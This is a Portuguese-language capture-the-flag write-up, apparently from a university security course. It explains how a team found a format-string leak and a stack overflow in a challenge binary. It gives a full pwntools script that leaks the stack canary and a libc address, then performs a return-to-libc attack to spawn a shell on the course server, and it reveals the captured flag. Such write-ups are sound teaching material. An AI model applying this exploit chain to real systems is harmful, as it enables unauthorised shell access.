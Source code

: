 Primeiro, utilizamos ```checksec``` no ```program```:

<img width="355" alt="Screenshot 2023-06-04 at 18 31 37" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/308938bf-4306-440d-a5d4-aebf50f638a0">

Verificamos que todas as proteções estão ativas.

Como foi indicado neste desafio "Não te esqueças, não há nada totalmente seguro." Então começamos por ultrapassar o máximo de caracteres permitidos, neste caso o máximo era 20.

<img width="899" alt="Screenshot 2023-06-04 at 18 37 11" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/e1992e5f-254b-4ca3-a424-e1c28c27d6cc">

Com isto verificamos que ```stack smashing detected```, indicando então que o ```program``` não verifica o número máximo de caracteres, esperando que o canary faça essa confirmação.

Após fazermos debugging ao ```program```, descobrimos algo que não é nada normal. A função ```fgets``` está a ler 100 caracteres, em vez dos supostos 20 caracteres. Então suspeitamos que existe alguma vulnerabildade em strings.

Confirmando a nossa suposição:

<img width="507" alt="Screenshot 2023-06-04 at 18 38 09" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/287af3d6-ad3c-424e-9edc-45d5f2242a19">

Como conseguimos imprimir a informação da stack, confirmamos que as nossas suspeitas estavam corretas.

Acabamos por descobrir depois de alguma pesquisa que este ataque é chamado de ```Return-to-libc``` (https://en.wikipedia.org/wiki/Return-to-libc_attack). Então criamos um script para esse ataque:

```python
from pwn import *

LOCAL = False

# Offset de referência da biblioteca
reference_lib_offset = 0xf7daa519 - 0xf7d89000
# Offset da função system na biblioteca
system_lib_offset = 0x48150
# Offset da string "/bin/sh" na biblioteca
sh_lib_offset = 0x1bd0f5

def send_message(p, message):
    p.recvuntil(b">")
    p.sendline(b"e")
    p.recvuntil(b"Insert your name (max 20 chars): ")
    p.sendline(message)
    answer = p.recvline()
    p.recvuntil(b"Insert your message: ")
    p.sendline(b"")
    return answer

if LOCAL:
    pause()
else:
    p = remote("ctf-sp.dcc.fc.up.pt", 4002)

# Envia a primeira mensagem para obter o valor do canário e um valor de referência
first_message = send_message(p, b"%8$x-%11$x")

canary, reference_val = [int(val, 16) for val in first_message.split(b'-')]

# Calcula a base da biblioteca
lib_base = reference_val - reference_lib_offset
# Calcula os endereços da função system e da string "/bin/sh"
address_system = lib_base + system_lib_offset
address_sh = lib_base + sh_lib_offset

# Monta a segunda mensagem com os valores calculados
second_message = flat(b"A"*20, canary + 1, b"A"*8, address_system, b"A"*4, address_sh)

send_message(p, second_message)

send_message(p, b"A"*19)

p.interactive()
```

Após executarmos ```python3 script.py```, finalmente obtemos a flag: **flag{446742e444cf864d5d85fa643112492a}**

<img width="606" alt="Screenshot 2023-06-04 at 18 38 52" src="https://github.com/DCC-FCUP-SP/sp2223-t01g06/assets/98234753/073ee602-1c6b-460b-9b86-3baf00c67159">
